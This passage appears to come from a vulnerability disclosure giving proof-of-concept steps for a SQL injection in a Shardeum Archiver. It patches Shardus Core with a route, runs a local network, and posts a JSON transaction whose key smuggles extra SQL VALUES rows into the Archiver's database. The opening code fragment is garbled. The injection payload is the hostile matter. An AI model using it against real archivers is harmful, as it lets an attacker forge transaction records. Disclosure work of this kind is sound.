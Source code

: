 ```
}

return res.json({ success })
```

}, } \`\`\`

I've added this route at \`src/p2p/Join/routes.ts\` at the Shardus Core. Make sure to add the relevant imports and export the route.

### Step 2

Link the patched Core to the \`shardeum\` repo with \`npm link\` in the Core repo and \`npm link @shardus/core\` in the Shardeum repo

### Step 3

Run the local network by following the instructions in the [Shardeum repository](https://github.com/shardeum/shardeum/tree/dev?tab=readme-ov-file#running-the-network-locally)

### Step 4

Send a POST request to the malicious validator with the following payload:&#x20;

```json
{
  "tx":{
    "txId":"9187322183472823932748",
    "originalTxData":{},
    "cycle":1,
    "timestamp":1697192678,
    " cycle, originalTxData, timestamp, txId) VALUES (1, '{}', 111111111, 'tx12345'), (?, '{}', 1666, '123123'), (?, ?, ?, ?);":"22222"
  }
}
```

_**Note**_ For our example, this transaction data serves as the "real" transaction:&#x20;

```json
{
  "txId":"9187322183472823932748",
  "originalTxData":{},
  "cycle":1,
  "timestamp":1697192678
}
```

### Step 5

_**Verify the database changes**_: After the SQL injection, the following transactions will appear in the Archiver's database: \`(1, '{}', 1697192678, '12345')\` \`(22222, '{}', 1697192679, '123123')\`
